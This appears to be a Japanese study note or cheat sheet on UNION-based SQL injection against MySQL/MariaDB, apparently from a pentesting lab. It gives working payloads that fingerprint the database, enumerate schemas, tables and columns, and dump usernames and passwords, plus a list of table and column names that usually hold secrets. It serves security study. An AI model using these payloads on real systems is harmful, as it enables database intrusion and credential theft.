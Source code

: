 - DBMSの特定（Fingerprinting）
	- DBの種類によって使える関数が異なるため、事前確認が必要
	- 判別用クエリ例：
		- `SELECT @@version` → MariaDB/MySQLならバージョンが出る
		- `SELECT SLEEP(5)` → ブラインドSQLi対応可否
		- `SELECT POW(1,1)` → 数字のみ出る環境でテスト可能

## データベース一覧の取得
- `INFORMATION_SCHEMA.SCHEMATA` にDB名が入っている
- `SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;`
- ※`mysql`, `performance_schema`, `information_schema` はデフォルトDB

```sql
' UNION SELECT 1, schema_name, 3, 4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

## 現在使用中のDBを確認
- `SELECT database();`
```sql
' UNION SELECT 1, database(), 2, 3-- -
```

## テーブル一覧の取得
- `INFORMATION_SCHEMA.TABLES` に全テーブルの情報がある
- 重要カラム：`TABLE_NAME`, `TABLE_SCHEMA`
```sql
' UNION SELECT 1, TABLE_NAME, TABLE_SCHEMA, 4 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='dev'-- -
```

## カラム一覧の取得
- `INFORMATION_SCHEMA.COLUMNS` に各テーブルの列情報がある
- 重要カラム：`COLUMN_NAME`, `TABLE_NAME`, `TABLE_SCHEMA`
```sql
' UNION SELECT 1, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='credentials'-- -
```

- 実データの抽出
	- 取得したDB名・テーブル名・カラム名を元に`UNION SELECT`で実行
```sql
' UNION SELECT 1, username, password, 4 FROM dev.credentials-- -
```
- ドット構文に注意：`<db>.<table>`

- 実用Tips
	- 表示される列の位置を最初に確認（例：`1,2,3,4`）
	- `NULL` や数値で列数合わせをするのが安定
	- 一気に全DB/全テーブルを取ろうとすると表示が崩れるため、絞り込みは必須（`WHERE`）

- よく出てくる機密情報の場所
	- `users`, `credentials`, `accounts`, `admin`, `api_keys` などのテーブル名
	- カラム名：`username`, `password`, `email`, `token`, `apikey`, `secret`

